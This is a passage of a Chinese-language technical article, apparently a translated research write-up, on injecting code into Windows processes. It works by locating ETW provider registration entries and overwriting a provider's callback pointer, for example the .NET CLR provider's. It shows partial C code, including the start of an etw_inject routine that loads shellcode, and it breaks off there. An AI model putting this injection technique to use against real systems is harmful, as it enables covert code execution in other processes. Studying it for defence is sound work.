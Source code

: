 ```
    `}`
    // 对于每一个指针减1
    for(i=0; i&lt;cnt - 1; i++) `{`
      rbt = (PRTL_RB_TREE)&amp;ds[i];
      // 跳过不是堆内存的指针
      if(!IsHeapPtr(rbt-&gt;Root)) continue;
      // 可能是注册表
      // 检查回调是否为代码
      re = (PETW_USER_REG_ENTRY)rbt-&gt;Root;
      if(!IsCodePtr(re-&gt;Callback)) continue;
      // 保存虚拟地址并退出循环
      va = &amp;ds[i];
      break;
    `}`
    return va;
`}`
```

### <a class="reference-link" name="4.%E8%A7%A3%E6%9E%90%E6%B3%A8%E5%86%8C%E8%A1%A8"></a>4.解析注册表

[ETW转储工具](https://github.com/odzhan/injection/tree/master/etw)可以在一个或多个进程的注册表中显示有关每个ETW提供程序的信息。提供程序的名称（私有提供程序除外）使用[ITraceDataProvider :: get_DisplayName](https://docs.microsoft.com/en-us/windows/win32/api/pla/nn-pla-itracedataprovider)获得。此方法使用 [Trace Data Helper API](https://docs.microsoft.com/en-us/windows/win32/etw/retrieving-event-data-using-tdh)，实际上API内部是通过WMI查询实现的。

```
Node        : 00000267F0961D00
GUID        : `{`E13C0D23-CCBC-4E12-931B-D9CC2EEE27E4`}` (.NET Common Language Runtime)
Description : Microsoft .NET Runtime Common Language Runtime - WorkStation
Callback    : 00007FFC7AB4B5D0 : clr.dll!McGenControlCallbackV2
Context     : 00007FFC7B0B3130 : clr.dll!MICROSOFT_WINDOWS_DOTNETRUNTIME_PROVIDER_Context
Index       : 108
Reg Handle  : 006C0267F0961D00
```

### <a class="reference-link" name="5.%E4%BB%A3%E7%A0%81%E9%87%8D%E5%AE%9A%E5%90%91"></a>5.代码重定向

提供程序的回调函数由内核在请求中调用，以启用或禁用跟踪。对于CLR，相关函数是**clr！McGenControlCallbackV2**。代码重定向是通过简单地用新回调的地址替换回调地址来实现的。当然，它必须使用相同的原型，否则一旦回调完成执行，主机进程将崩溃。我们可以使用[StartTrace](https://docs.microsoft.com/en-us/windows/win32/api/evntrace/nf-evntrace-starttracea)和[EnableTraceEx API](https://docs.microsoft.com/en-us/windows/win32/api/evntrace/nf-evntrace-enabletraceex) 调用新的回调，并且结合[NtTraceControl](http://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/etw/traceapi/control/index.htm)可能有更简单的方法。

```
//使用ETW注册入口点

BOOL etw_inject(DWORD pid, PWCHAR path, PWCHAR prov) `{`
    RTL_RB_TREE             tree;
    PVOID                   etw, pdata, cs, callback;
    HANDLE                  hp;
    SIZE_T                  rd, wr;
    ETW_USER_REG_ENTRY      re;
    PRTL_BALANCED_NODE      node;
    OLECHAR                 id[40];
    TRACEHANDLE             ht;
    DWORD                   plen, bufferSize;
    PWCHAR                  name;
    PEVENT_TRACE_PROPERTIES prop;
    BOOL                    status = FALSE;
    const wchar_t           etwname[]=L"etw_injection";

    if(path == NULL) return FALSE;
    // 尝试将shellcode读入内存
```